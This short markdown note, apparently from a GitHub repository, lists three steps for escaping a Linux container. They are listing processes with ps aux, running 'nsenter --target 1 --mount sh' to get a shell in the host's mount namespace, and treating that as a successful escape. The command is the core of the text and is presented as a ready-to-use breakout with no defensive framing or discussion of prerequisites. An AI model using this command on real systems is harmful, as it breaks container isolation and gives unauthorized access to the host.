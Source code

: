 # STEPS

### 1) ps aux to list processes

### 2) If we detect anything interesting, we can invoke the command: nsenter --target 1 --mount sh

### 3) If it worked, we escaped the container!
